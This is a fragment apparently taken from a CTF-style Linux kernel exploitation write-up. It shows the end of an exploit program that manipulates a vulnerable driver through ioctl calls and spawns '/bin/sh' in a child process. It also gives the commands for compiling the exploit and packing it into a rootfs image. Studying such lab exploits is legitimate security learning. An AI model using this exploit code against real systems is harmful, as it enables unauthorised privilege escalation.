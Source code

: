 ````
    int pid = fork();
    if (pid < 0)
    {
        puts("[*]fork error!");
        exit(0);
    }
    if (pid == 0)
    {
		puts("[*]this is child process!");
		memset(p->ptr, 0, sizeof(p->ptr));
        p->start = 0;
        p->len = 0x28;
        wt(fd2);
        system("/bin/sh");
        exit(0);
	}else
    {
        puts("[*]this is child process!");
        int status;
        wait(&status);
    }

    return 0;
}
````

```
gcc exp.c -g -static -o exp
chmod +x exp
cp exp rootfs/
#pack
cd rootfs
find . | cpio -o --format=newc > ../rootfs.cpio
```

According to the `ioctl` command, we can write `interactive functions`

```
void alloc(int fd)
{
    ioctl(fd, 0x1111111, p);
}

void rd(int fd)
{
    ioctl(fd, 0x7777777, p);
}

void wt(int fd)
{
    ioctl(fd, 0x6666666, p);
}
```
